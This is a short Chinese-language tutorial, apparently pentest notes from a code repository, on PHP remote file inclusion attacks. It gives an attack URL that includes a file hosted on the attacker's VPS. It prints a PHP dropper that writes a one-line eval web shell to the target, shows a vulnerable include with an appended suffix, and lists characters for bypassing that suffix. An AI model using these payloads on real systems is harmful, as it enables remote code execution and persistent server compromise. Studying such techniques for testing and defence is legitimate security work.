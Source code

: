 ## 远程文件包含

### 前提

远程文件包含需要allow_url_fopen和allow_url_include都开启

### 无限制远程文件包含

通过远程文件包含漏洞，包含shell.txt可以解析

举例：

    ?file=http://攻击者的VPS/shell.txt

shell.txt的内容

    <?php
        fputs(fopen('./shell.php','w'),'<?php @eval($_POST[aaa]) ?>');
    ?>
    
### 有限制远程文件包含漏洞绕过

举例

    <?php include($_GET['filename'] . ".html"); ?>

代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀

可以通过  ？# 空格 点点点点点点*n 绕过，也可以直接burp爆破尝试支持的绕过符号。

